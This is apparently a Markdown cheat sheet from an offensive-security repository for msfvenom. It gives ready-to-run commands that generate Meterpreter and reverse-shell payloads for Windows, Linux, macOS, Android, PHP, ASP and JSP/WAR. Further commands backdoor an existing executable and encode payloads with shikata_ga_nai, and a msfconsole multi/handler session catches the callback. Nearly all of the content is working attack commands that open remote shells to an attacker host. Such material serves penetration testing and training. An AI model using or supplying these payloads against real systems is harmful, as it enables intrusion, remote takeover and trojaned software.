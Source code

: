 # Msfvenom Cheat Sheet

---

![MsfVenom](/images/cheatsheet/offensive_security/msfvenom_wallpaper.png)

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

### Binaries

Info					  | Commands
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creates a simple TCP Payload for Windows  | ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creates a simple HTTP Payload for Windows | ``` msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creates a simple TCP Shell for Linux      | ``` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creates a simple TCP Shell for Mac        | ``` msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creats a simple TCP Payload for Android   | ``` msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Web Payloads

Info					  | Commands
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creats a Simple TCP Shell for PHP | ```msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creats a Simple TCP Shell for ASP | ```msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creats a Simple TCP Shell for Javascript | ```msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creats a Simple TCP Shell for WAR | ```msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Payloads

Info					  | Commands
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Lists all avalaible encoders | ```msfvenom -l encoders```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Binds an exe with a Payload (Backdoors an exe) | ```msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Creates a simple TCP payload with shikata_ga_nai encoder | ```msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Binds an exe with a Payload and encodes it | ```msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

- How do I get the meterprater shell?

```bash
sudo msfconsole

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123

msf exploit(multi/handler) > set lport 4444
lport => 4444

msf exploit(multi/handler) > run
```


---
[Cheat Sheet](/cheatsheet/cheatsheet_readme.md) [HOME Page](/README.md)
